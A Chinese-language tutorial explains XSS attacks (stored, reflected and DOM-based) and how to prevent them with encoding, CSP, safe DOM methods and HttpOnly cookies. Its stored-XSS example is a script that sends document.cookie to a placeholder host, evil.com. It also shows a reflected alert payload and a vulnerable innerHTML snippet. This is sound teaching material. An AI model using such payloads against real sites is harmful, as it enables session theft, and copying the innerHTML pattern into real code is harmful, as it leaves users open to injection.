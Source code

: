 ### 什么是 XSS 攻击？

**XSS (Cross-Site Scripting)**，即跨站脚本攻击，是一种常见的安全漏洞，攻击者通过在网页中注入恶意代码，诱使其他用户在浏览该网页时执行这些代码，从而窃取用户信息、伪造内容或执行其他恶意操作。

尽管名字叫“跨站脚本”，但 XSS 的核心问题在于 **浏览器信任了受信任站点的页面内容**，导致用户执行了未经验证的脚本代码。

------

### XSS 的类型

XSS 通常分为以下三类：

#### 1. **存储型 XSS**

- **特点**：攻击代码被持久存储在目标服务器上，例如数据库、日志或文件系统。

- 流程

  ： 

  1. 攻击者向服务器提交恶意代码（如通过留言板、评论区、用户信息表单等）。
  2. 恶意代码存储在服务器端。
  3. 其他用户访问相关页面时，服务器返回的数据中包含恶意代码，用户的浏览器执行代码。

- **危害**：长期存在，影响范围大。

**示例**：

```html
<script>
  // 恶意脚本：窃取用户 Cookie 并发送给攻击者
  document.location = "http://evil.com/steal?cookie=" + document.cookie;
</script>
```

#### 2. **反射型 XSS**

- **特点**：恶意代码通过请求立即返回，并在用户浏览器中执行。

- 流程

  ： 

  1. 攻击者通过精心构造的 URL，携带恶意代码参数发送给用户。
  2. 用户点击链接或打开页面，服务器将恶意代码注入返回的 HTML 页面中。
  3. 用户的浏览器解析并执行恶意代码。

- **危害**：依赖用户点击恶意链接，攻击范围受限。

**示例**： 用户访问以下链接：

```
http://example.com/search?q=<script>alert('XSS')</script>
```

如果服务器未对输入进行过滤，返回如下页面：

```html
<div>搜索结果: <script>alert('XSS')</script></div>
```

#### 3. **DOM 型 XSS**

- **特点**：恶意代码直接操作用户浏览器的 DOM，不依赖服务器返回的内容。

- 流程

  ： 

  1. 攻击者构造恶意代码，并通过 URL 或用户输入传递到页面。
  2. 浏览器中的 JavaScript 代码直接处理用户输入，导致恶意代码被执行。

- **危害**：攻击完全在前端发生，与服务器无关。

**示例**：

```javascript
const query = location.search.slice(1); // 直接取用户输入
document.body.innerHTML = `<div>${query}</div>`;
```

------

### XSS 的危害

- **窃取用户信息**：如 Cookie、会话令牌、敏感数据。
- **冒充用户操作**：如转账、修改数据。
- **诱导用户执行恶意操作**：如钓鱼页面。
- **破坏页面**：如篡改界面、添加虚假内容。

------

### 如何防范 XSS 攻击？

#### 1. **输入过滤**

- 对用户输入进行严格的校验和过滤，禁止不安全的字符（如 `<`, `>`, `&`, `'`, `"` 等）。
- 在服务端和客户端同时验证输入。

#### 2. **输出编码**

- **HTML 编码**：防止 HTML 注入。

- **JavaScript 编码**：防止脚本注入。

- **CSS 编码**：防止样式注入。

- 例如： 

  ```javascript
  const encodeHTML = str => str.replace(/[<>&"'`]/g, char => ({
    '<': '&lt;',
    '>': '&gt;',
    '&': '&amp;',
    '"': '&quot;',
    "'": '&#39;',
    '`': '&#96;'
  }[char]));
  ```

#### 3. **使用 CSP (内容安全策略)**

- 限制页面可以执行的脚本来源，防止加载外部恶意脚本。

- 示例： 

  ```http
  Content-Security-Policy: default-src 'self'; script-src 'self';
  ```

#### 4. **避免直接插入用户输入**

- 在 DOM 中使用用户输入时，避免直接插入 HTML，推荐使用 

  安全的 DOM 操作方法

  ： 

  - 推荐：`textContent`、`innerText`。
  - 避免：`innerHTML`、`document.write`。

#### 5. **HTTP-only Cookie**

- 禁止 JavaScript 访问敏感的 Cookie 数据。

#### 6. **使用安全框架**

- 使用如 Vue.js、React 等现代框架，它们默认对用户输入做了处理，防止 XSS。

#### 7. **代码审计**

- 定期审计代码，特别是涉及用户输入的部分，确保不存在 XSS 漏洞。

------

### 总结

XSS 攻击利用浏览器信任服务器返回的内容，通过注入恶意脚本窃取数据或执行恶意操作。通过输入过滤、输出编码、使用 CSP 和安全框架等措施，可以有效地防范 XSS 攻击。